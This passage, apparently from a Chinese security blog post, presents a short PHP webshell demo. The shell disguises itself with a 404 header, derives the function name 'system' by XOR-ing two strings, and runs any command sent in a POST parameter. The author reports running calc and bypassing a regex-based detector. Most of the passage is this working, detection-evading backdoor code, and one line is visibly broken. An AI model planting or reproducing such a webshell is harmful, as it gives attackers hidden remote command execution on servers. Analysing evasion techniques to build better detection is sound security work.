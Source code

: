 说干就干，我写了以下 demo：

```plain
header('HTTP/1.1 404');
class Aabyss{
    public $c='';
    function __destruct(){
        $ = ('.$.48]' ^ ']]]@]0');   //通过异或运算，得到高危函数 system
    return $($this->c);
    }
}
$runrun=new Aabyss();
@$runrun->c=$_POST['zg'];
```

传参后，成功执行 `calc` 弹出计算器：

[![](assets/1707953853-c15d9de2a1f55c00ea15651fbcd834c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206103455-50206c76-c498-1.png)

绕过正则表达式的匹配，成功 ByPass：

[![](assets/1707953853-5212dd170b6626e66d19a0660da8ba99.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206103509-58815a1a-c498-1.png)
